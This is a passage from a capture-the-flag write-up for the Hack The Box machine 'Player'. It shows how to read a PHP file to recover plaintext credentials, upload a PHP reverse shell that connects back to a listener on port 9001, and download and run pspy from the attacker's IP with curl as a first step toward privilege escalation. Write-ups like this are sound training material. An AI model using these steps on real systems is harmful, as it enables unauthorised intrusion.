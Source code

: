 This spawns a shell that allows to write files and read files. Lets show the contents of the PHP files that were not allowed before:
```
#> .readfile /var/www/staging/fix.php
```

This file contains credentials for the user _peter_:
- Username: peter
- Password: CQXpm\z)G5D#%S$y=

After trying the credentials on all three services, they work on _dev.player.htb_.

## Analyzing dev.player.htb

This application seems to be a code management system.
By creating a new project and using the correct path, it shows the source files of _dev.player.htb_:

![Code of dev.player.htb](https://kyuu-ji.github.io/htb-write-up/player/player_web-10.png)

All those files can be found directly on _dev.player.htb_ and can be tested with the _INSTALL.txt_ for example:
```
http://dev.player.htb/INSTALL.txt
```

By right-clicking on the project name and then _"Upload Files"_ it is possible to upload files so lets upload a PHP reverse shell from the **Laudanum scripts** and browse to it to execute it:
```
http://dev.player.htb/shell.php
```

After the request, the listener on my IP and port 9001 starts a reverse shell connection as _www-data_.
We can switch to _telegen_ as that user has probably more permissions:
```
su -s /bin/bash telegen
```

## Privilege Escalation

To enumerate running processes, the tool [pspy](https://github.com/DominicBreuker/pspy) will be uploaded and used.
```
curl 10.10.14.21/pspy32 -o pspy32

chmod +x pspy32

./pspy32
```

It shows all the processes and commands running and after a while there is one interesting executed command:
```
/usr/bin/php /var/lib/playbuff/buff.php
```
